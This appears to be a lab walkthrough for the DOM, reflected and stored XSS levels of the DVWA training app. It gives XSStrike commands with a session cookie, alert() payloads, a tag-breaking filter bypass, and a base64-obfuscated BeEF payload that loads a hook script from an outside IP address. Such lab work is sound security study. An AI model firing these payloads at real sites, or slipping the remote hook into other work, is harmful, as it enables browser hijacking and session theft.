     
## XSS (DOM)
XSSer & **XSSTrike**
### Low
```bash!
python3 xsstrike.py -u "https://digidvwa.azurewebsites.net/vulnerabilities/xss_d/?default=1" --headers "Cookie: PHPS
ESSID=n280j97vu4pl3kmv34naghl107; security=low"
```
![](https://i.imgur.com/jYvWHnq.png)


Payload: `<script>alert("XD")</script>`

### Medium

**Payload** : `https://digidvwa.azurewebsites.net/vulnerabilities/xss_d/?default=English#<script>alert(1);</script>`


### High
Beef XSS Payload: `<img src=x id="dmFyIHg9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7eC5zcmM9Imh0dHA6Ly8xNTkuODkuMTE1LjY4OjMwMDAvaG9vay5qcyI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZCh4KTs="; onerror=eval(atob(this.id))>`



## XSS (Reflected)
XSSer & **XSSTrike**
```bash!
python3 xsstrike.py -u "https://digidvwa.azurewebsites.net/vulnerabilities/xss_r/?name=w#" --headers "Cookie: PHPSESSID=n280j97vu4pl3kmv34naghl107; security=high"
```
![](https://i.imgur.com/zfd5uzX.png)


### Low
Payload: `<script>alert(1)</script>`

### Medium
提前結束`<pre>` tag 才能插入`script`
![](https://i.imgur.com/stG8T7D.png)

Pyload: `</pre><ScRiPt>alert(1)</script><pre>`

URL Encoded: `https://digidvwa.azurewebsites.net/vulnerabilities/xss_r/?name=%3C%2Fpre%3E%3CScRiPt%3Ealert%281%29%3C%2Fscript%3E%3Cpre%3E`

### High
**Payload:** `<img src=x id="dmFyIHg9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7eC5zcmM9Imh0dHA6Ly8xNTkuODkuMTE1LjY4OjMwMDAvaG9vay5qcyI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZCh4KTs="; onerror=eval(atob(this.id))>`


## XSS (Stored)
Refer - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
